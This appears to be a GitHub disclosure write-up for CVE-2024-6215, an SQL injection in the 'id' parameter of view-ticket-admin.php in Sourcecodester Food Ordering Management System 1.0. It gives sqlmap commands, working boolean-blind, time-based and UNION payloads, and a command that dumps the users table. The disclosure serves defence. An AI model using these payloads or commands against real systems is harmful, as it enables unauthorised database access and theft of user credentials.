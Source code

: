 # SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (view-ticket-admin.php)
## CVE-2024-6215

Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: view-ticket-admin.php

Injection parameter: id


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The id fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the view-ticket-admin.php:

`http://172.16.76.1/foms/view-ticket-admin.php`

![image](https://github.com/jadu101/CVE/assets/76433661/f00bf9b6-8a1f-4d34-b2dd-2c2616ef8c03)

We will first intercept the view-ticket traffic using Burp Suite:

![Screenshot from 2024-06-19 14-21-17](https://github.com/jadu101/CVE/assets/76433661/ca1c3344-5aac-479d-9813-f972980db5ea)

Save the intercepted request to a .txt file and execute sqlmap towards it. 

id price is vulnerable to boolean-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-view-ticket-admin.txt --batch`

![Screenshot from 2024-06-19 14-22-34](https://github.com/jadu101/CVE/assets/76433661/06552488-4803-4c06-a35e-f99d32a10de8)

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5820=5820

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 1153 FROM (SELECT(SLEEP(5)))TJiA)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=-3013 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176716b71,0x674f514145744f534654486259594c6e6d63775669714f656656796b687747487963774273506755,0x716a6a6a71),NULL,NULL-- -
---
```

`sqlmap -r foms-view-ticket-admin.txt --batch --dbs`

![image](https://github.com/jadu101/CVE/assets/76433661/efe8ddc0-e9c0-4a8e-b51c-cd626365ce3b)

`sqlmap -r foms-view-ticket-admin.txt --batch --dbs -D foms_db -T users --dump`

![image](https://github.com/jadu101/CVE/assets/76433661/cad2be77-d4c7-45f6-b4ef-726d1a6e751f)
